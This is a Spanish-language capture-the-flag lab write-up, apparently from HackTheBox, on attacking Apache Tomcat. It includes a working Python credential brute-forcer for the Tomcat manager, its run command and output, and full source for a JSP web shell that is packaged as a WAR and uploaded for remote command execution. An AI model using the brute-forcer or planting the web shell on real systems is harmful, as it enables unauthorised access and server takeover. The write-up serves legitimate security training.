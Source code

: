 # Laboratorio: Tomcat 🐱

1. Agregamos el dominio y la dirección IP al archivo **`/etc/hosts`**

---

2. Para saber la versión de **Tomcat** que se ejecuta en `web01.inlanefreight.local`, lo que haremos es visitar la dirección **`/docs`** 
* **URL:** `http://web01.inlanefreight.local:8180/docs/`

<p align="center">
    <img src="./assets/Tomcat/01-Versions.PNG">
</p>

---

3. El rol que tiene el **administrador** es el de `admin-gui`

---

# Laboratorio: Tomcat Attacking 😾

1. Agregamos el dominio y la dirección IP al archivo **`/etc/hosts`**
---

2. El usuario que válido es `tomcat`

<p align="center">
    <img src="./assets/Tomcat/02-User.PNG">
</p>

---
3. Modificaremos un poco el **script** que nos da `HackTheBox` para bruteforcear la contraseña del usuario **`tomcat`**

* Script Python 🐍

```python
#!/usr/bin/python

import requests
from termcolor import cprint
import argparse

parser = argparse.ArgumentParser(description = "Tomcat manager or host-manager credential bruteforcing")

parser.add_argument("-U", "--url", type = str, required = True, help = "URL to tomcat page")
parser.add_argument("-P", "--path", type = str, required = True, help = "manager or host-manager URI")
parser.add_argument("-p", "--passwords", type = str, required = True, help = "Passwords Files")

args = parser.parse_args()

url = args.url
uri = args.path
passwords_file = args.passwords

new_url = url + uri
f_user = b"tomcat"
f_pass = open(passwords_file, "rb")
passwords = [x.strip() for x in f_pass]

cprint("\n[+] Atacking.....", "red", attrs = ['bold'])

for p in passwords:
	r = requests.get(new_url,auth = (f_user, p))
	if r.status_code == 200:
		cprint("\n[+] Success!!", "green", attrs = ['bold'])
		cprint("[+] Username : {}\n[+] Password : {}".format(f_user,p), "green", attrs = ['bold'])
		break

cprint("\n[+] Failed!!", "red", attrs = ['bold'])
cprint("[+] Could not Find the creds :( ", "red", attrs = ['bold'])
```
---

4. Ejecutamos el script y encontramos la contraseña válida ✅
* `python3 brute-force_tomcat.py -U http://web01.inlanefreight.local:8180/ -P /manager  -p tomcat_mgr_default_pass.txt`

**Output**
```bash
[+] Success!!
[+] Username : b'tomcat'
[+] Password : b'root'
```

---

5. Ahora comprimieremos el archivo `cmd.jsp` en uno con extensión **.jsp**

* **cmd.jsp**

```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```

* Luego: `zip -r shell.war cmd.jsp`

---

6. Ahora subimos el **archivo .war** 

---

7. Ahora ya podemos ejecutar comandos y leemos la **flag** 🏴
* **URL:** `http://web01.inlanefreight.local:8180/shell/cmd.jsp`

<p align="center">
    <img src="./assets/Tomcat/03-Flag.PNG">
</p>